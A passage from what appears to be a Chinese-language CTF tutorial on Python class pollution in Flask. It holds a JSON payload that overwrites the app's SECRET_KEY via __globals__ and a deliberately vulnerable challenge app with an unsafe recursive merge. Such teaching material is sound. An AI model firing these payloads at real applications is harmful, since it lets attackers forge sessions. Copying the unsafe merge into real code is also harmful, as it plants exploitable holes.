 ```python
payload = {
    "__init__": {
        "__globals__": {
            "app": {
                "config": {
                    "SECRET_KEY": "polluted~"
                }
            }
        }
    }
}
```

### `_got_first_request`

用于判定是否某次请求为自`Flask`启动后第一次请求，会影响装饰器`app.before_first_request`的调用，只有`_got_first_request`值为假时其才会调用

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```
